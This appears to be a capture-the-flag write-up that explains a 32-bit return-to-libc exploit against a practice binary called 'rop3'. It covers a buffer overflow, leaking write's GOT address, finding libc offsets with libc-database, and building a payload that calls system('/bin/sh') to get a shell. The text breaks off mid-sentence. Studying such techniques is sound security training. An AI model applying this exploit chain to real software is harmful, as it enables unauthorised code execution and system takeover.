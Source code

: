 ### The importtant is leak the address of system /bin/sh

so now !!
we need overflow the retn
	
padding = 140 character

return -> write_plt

function write is write something to command line 
ok so we have ( printf and puts and write to do that )

in this challenge we have write_plt

1 - > find the address of write_plt
the write have something like that write( 1 , address , 4 )

after we find the write_plt we must know the write_got or something in got tables

we can use 
```
objdump -R rop3 
```
to know the got  function like 

At here , i use write_got

2-> find the address of write_got

3-> building payload
payload look like
```
padding + write_plt + retn_after + one + write_got + four

```
ok !! i will explain ....
we redirect to write_plt then we need 4 byte address return after w
rite_plt excute !
then we need by pass the write(1 ,need_to_print,4)
that mean we write 4 byte of need_to_print 
so we have write(1,write_got,4) -> so we have write_got address

4-> use write_got address to find system and binsh

we use libc-database

```
./find write 0xf7685fe0
ubuntu-trusty-i386-libc6 (id libc6_2.19-0ubuntu6.9_i386)

 ./dump libc6_2.19-0ubuntu6.9_i
386
offset___libc_start_main_ret = 0x19af3
offset_system = 0x00040310
offset_dup2 = 0x000db920
offset_read = 0x000daf60
offset_atoi = 0x000318e0
offset_printf = 0x0004d410
offset_puts = 0x000657e0
offset_write = 0x000dafe0
offset_str_bin_sh = 0x16084c

```
ok so now we have offset_write = 0x000dafe0
from that we can know the address bin_sh and system 
with its offset  

4-> offset_write = 0x000dafe0
    offset_system=0x00040310
    offset_bin_sh=0x16084c

so know we can figure out the base address
with 
address_write - offset_write = base
system_address = base+ offset_system
binsh= base + offset_bin_sh

5->we need to redirect the code after write address_write after excute to vuln again 

so now we send the payload again like that:

payload = padding +system_address + "junk" + binsh

we control the shell

now we 
	
